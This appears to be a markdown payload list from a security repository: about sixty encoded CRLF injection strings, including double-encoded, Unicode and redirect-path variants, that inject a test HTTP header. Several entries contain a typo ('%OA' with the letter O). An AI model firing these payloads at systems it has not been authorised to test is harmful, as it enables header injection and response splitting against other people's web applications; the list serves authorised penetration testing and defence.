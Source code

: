 # CRLF Injection Payloads

`%0AHeader-Test:TEST`

`%0A%20Header-Test:TEST`

`%20%0AHeader-Test:TEST`

`%23%OAHeader-Test:TEST`
    
`%E5%98%8A%E5%98%8DHeader-Test:TEST`

`%E5%98%8A%E5%98%8D%0AHeader-Test:TEST`

`%3F%0AHeader-Test:TEST`

`crlf%0AHeader-Test:TEST`

`crlf%0A%20Header-Test:TEST`

`crlf%20%0AHeader-Test:TEST`

`crlf%23%OAHeader-Test:TEST`

`crlf%E5%98%8A%E5%98%8DHeader-Test:TEST`

`crlf%E5%98%8A%E5%98%8D%0AHeader-Test:TEST`

`crlf%3F%0AHeader-Test:TEST`

`%0DHeader-Test:TEST`

`%0D%20Header-Test:TEST`

`%20%0DHeader-Test:TEST`

`%23%0DHeader-Test:TEST`

`%23%0AHeader-Test:TEST`

`%E5%98%8A%E5%98%8DHeader-Test:TEST`

`%E5%98%8A%E5%98%8D%0DHeader-Test:TEST`

`%3F%0DHeader-Test:TEST`

`crlf%0DHeader-Test:TEST`

`crlf%0D%20Header-Test:TEST`

`crlf%20%0DHeader-Test:TEST`

`crlf%23%0DHeader-Test:TEST`

`crlf%23%0AHeader-Test:TEST`

`crlf%E5%98%8A%E5%98%8DHeader-Test:TEST`

`crlf%E5%98%8A%E5%98%8D%0DHeader-Test:TEST`

`crlf%3F%0DHeader-Test:TEST`

`%0D%0AHeader-Test:TEST`

`%0D%0A%20Header-Test:TEST`

`%20%0D%0AHeader-Test:TEST`

`%23%0D%0AHeader-Test:TEST`

`\r\nHeader-Test:TEST`

`\r\n Header-Test:TEST`

`\r\n Header-Test:TEST`

`%5cr%5cnHeader-Test:TEST`

`%E5%98%8A%E5%98%8DHeader-Test:TEST`

`%E5%98%8A%E5%98%8D%0D%0AHeader-Test:TEST`

`%3F%0D%0AHeader-Test:TEST`

`crlf%0D%0AHeader-Test:TEST`

`crlf%0D%0A%20Header-Test:TEST`

`crlf%20%0D%0AHeader-Test:TEST`

`crlf%23%0D%0AHeader-Test:TEST`

`crlf\r\nHeader-Test:TEST`

`crlf%5cr%5cnHeader-Test:TEST`

`crlf%E5%98%8A%E5%98%8DHeader-Test:TEST`

`crlf%E5%98%8A%E5%98%8D%0D%0AHeader-Test:TEST`

`crlf%3F%0D%0AHeader-Test:TEST`

`%0D%0A%09Header-Test:TEST`

`crlf%0D%0A%09Header-Test:TEST`

`%250AHeader-Test:TEST`

`%25250AHeader-Test:TEST`

`%%0A0AHeader-Test:TEST`

`%25%30AHeader-Test:TEST`

`%25%30%61Header-Test:TEST`

`%u000AHeader-Test:TEST`
    
`//www.google.com/%2F%2E%2E%0D%0AHeader-Test:TEST`
    
`/www.google.com/%2E%2E%2F%0D%0AHeader-Test:TEST`

`/google.com/%2F..%0D%0AHeader-Test:TEST`

